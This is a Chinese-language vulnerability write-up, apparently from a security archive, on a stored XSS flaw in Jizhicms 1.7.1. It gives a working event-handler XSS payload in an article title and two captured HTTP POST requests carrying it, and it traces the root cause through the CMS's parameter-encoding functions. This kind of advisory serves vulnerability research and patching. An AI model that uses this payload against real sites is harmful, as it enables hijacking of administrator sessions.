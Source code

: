 Jizhicms 1.7.1 存储XSS漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

首先自己注册一个账户然后登陆，在文章标题处插入XSS payload

    payload:<details open>

![1.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId24.png)

管理员登录后台点击编辑且没有修改里面的字符串就保存的话那便会触发XSS漏洞![2.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId25.png)![3.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId26.png)首先看一下在前台发表文章处的请求数据包

    POST /user/release.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 187
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/user/release.html
    Cookie: PHPSESSID=t616fln4me32an09rj6v67vr5b

    ajax=1&isshow=&molds=article&tid=2&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&keywords=&litpic=&description=123&body=%3Cp%3E123%3Cbr%2F%3E%3C%2Fp%3E

根据url定位到release函数![4.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId27.png)该函数主要是先检查是否是登录状态然后检查是否存在违禁词汇，其中违禁词汇取的是webconf\[\'mingan\'\]的值，由前篇文章可知数据存放在数据库中然后通过缓存读取相关信息，可以直接输出一下![5.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId28.png)

    过滤的东西和XSS关系不大，主要是涉及到文章敏感汉字之类的，然后被保存到数据库中的时候<>变成了&lt; &gt;

![6.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId29.png)看下是如何进行操作的，继续跟进该函数，通过frparam函数进行操作之后对title进行赋值![7.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId30.png)frparam函数在获取到相关值后调用format\_param函数对数据进行处理，由于传入的int的值为1.所以对传入的参数进行了html实体编码![8.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId31.png)![9.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId32.png)所以在数据库中存储的是进行过实体编码的xss payload最后登入后台看下编辑函数

    POST /admin.php/Article/editarticle.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 340
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/admin.php/Article/editarticle/id/34.html
    Cookie: PHPSESSID=t616fln4me32an09rj6v67vr5b

    go=1&id=34&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&tid=2&seo_title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&hits=0&keywords=&litpic=&file=&description=123&orders=0&tags=&isshow=0&addtime=2020-05-28+17%3A17%3A39&target=&ownurl=&body=%3Cp%3E123%3Cbr%2F%3E%3C%2Fp%3E

看一下数据中的更新情况，又将\< \>变成了\<\>,所以触发了XSS漏洞![10.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId33.png)定位到漏洞函数editarticle，看到同样调用了frparam函数![11.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId34.png)frparam函数由于没有传入参数会直接返回url中的数据![12.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId35.png)在请求包中可以看到是已经将html实体化编码变成了原字符，所以data取到的数据时没有经过html编码的数据![13.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId36.png)所以在进行update更新操作的时候就会向数据库写入未经html实体化编码的数据

参考链接
--------

> https://xz.aliyun.com/t/7861
